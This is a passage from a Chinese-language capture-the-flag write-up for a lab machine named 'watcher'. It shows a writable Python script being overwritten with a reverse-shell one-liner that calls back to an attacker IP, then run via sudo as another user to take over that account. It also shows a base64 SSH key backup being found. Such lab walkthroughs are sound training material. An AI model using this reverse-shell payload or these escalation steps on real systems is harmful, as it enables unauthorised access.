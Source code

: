 当然我们现在并没有必要这样做，因为：

    -rw-r--r-- 1 mat  mat   133 Dec  3  2020 cmd.py

我们是文件所有者，我们可以编辑该文件

首先在攻击机上创建文件test1.txt并添加内容：

    def get_command(num):
        import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.39.48",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")


将其base64

然后在目标解码并写入cmd.py

    mat@watcher:~/scripts$ echo "<base64 code>" | base64 -d > ./cmd.py

开启nc监听，然后sudo执行wil_script.py：

    mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py hack

成功移动到will

    will@watcher:~/scripts$ cd /home/will
    cd /home/will
    will@watcher:/home/will$ ls -la
    ls -la
    total 36
    drwxr-xr-x 5 will will 4096 Dec  3  2020 .
    drwxr-xr-x 6 root root 4096 Dec  3  2020 ..
    lrwxrwxrwx 1 will will    9 Dec  3  2020 .bash_history -> /dev/null
    -rw-r--r-- 1 will will  220 Dec  3  2020 .bash_logout
    -rw-r--r-- 1 will will 3771 Dec  3  2020 .bashrc
    drwx------ 2 will will 4096 Dec  3  2020 .cache
    drwxr-x--- 3 will will 4096 Dec  3  2020 .config
    -rw------- 1 will will   41 Dec  3  2020 flag_6.txt
    drwx------ 3 will will 4096 Dec  3  2020 .gnupg
    -rw-r--r-- 1 will will  807 Dec  3  2020 .profile
    -rw-r--r-- 1 will will    0 Dec  3  2020 .sudo_as_admin_successful
    will@watcher:/home/will$ cat ./flag_6.txt

## getroot - ssh私钥暴露

如果刚刚认真检索目标上的文件的话，那么你一定找到了/opt/backups，该文件夹允许adm组的成员访问。

    will@watcher:~$ id
    id
    uid=1000(will) gid=1000(will) groups=1000(will),4(adm)

现在我们有权访问

    will@watcher:~$ ls -la /opt/backups
    ls -la /opt/backups
    total 12
    drwxrwx--- 2 root adm  4096 Dec  3  2020 .
    drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
    -rw-rw---- 1 root adm  2270 Dec  3  2020 key.b64
